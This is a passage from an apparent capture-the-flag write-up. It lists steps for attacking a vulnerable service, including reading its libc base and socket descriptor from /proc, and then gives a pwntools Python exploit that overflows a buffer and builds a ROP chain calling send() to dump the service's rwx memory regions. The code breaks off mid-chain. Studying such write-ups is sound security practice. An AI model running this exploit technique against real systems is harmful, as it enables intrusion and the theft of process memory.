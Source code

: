 1. download libc from the vulnerable box (it's `Ubuntu GLIBC 2.31-0ubuntu9`)
2. find useful gadgets using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
3. get libc address from `/proc/$(pgrep service)/maps`
4. get fd from `/proc/$(pgrep service)/fd/`
5. read rwx sections from `/proc/$(pgrep service)/maps`
6. use `send(fd, address, size, 0)` and dump the memory regions

The vulnerable box has installed `python3` with [pwntools](https://github.com/Gallopsled/pwntools) (many thanks to organizers), so we can write our exploit in python:

```python3
#!/usr/bin/env python3.7

import os

from pwn import *


def main(io):
    # "leak" fd from /proc/
    fd_cmd = 'ls /proc/$(pgrep service)/fd/ | wc -l'
    fd = int(os.popen(fd_cmd).read().strip()) - 1

    # "leak" libc_base from /proc/
    libc_base_cmd = 'cat /proc/$(pgrep service)/maps | grep libc | head -1 | cut -d- -f1'
    libc_base = int(os.popen(libc_base_cmd).read().strip(), 16)
    
    # get all rwx sections
    maps = os.popen('cat /proc/$(pgrep service)/maps').read().strip().split('\n')
    regions = []

    for line in maps:
        parts = line.split(' ')
        if 'rwx' not in parts[1]:
            continue
        start, end = [int(x, 16) for x in parts[0].split('-')]
        regions.append((start, end - start))

    # some useful gadgets
    send_plt = 0x4011C0

    pop_rdi_ret = libc_base + 0x0000000000026b72
    pop_rsi_ret = libc_base + 0x0000000000027529
    pop_rdx_pop_rcx_pop_rbx_ret = libc_base + 0x000000000010556d

    # enter to register_handler
    for i in range(4):
        io.recvline()
    
    io.sendline(b'1')
    
    # build rop-chain
    chain = [
        b'A' * 0x118,
        b'B' * 8
    ]

    for start, size in regions:
        chain.extend([
            p64(pop_rdi_ret),
            p64(fd),
            p64(pop_rsi_ret),
            p64(start),
            p64(pop_rdx_pop_rcx_pop_rbx_ret),
            p64(size),
```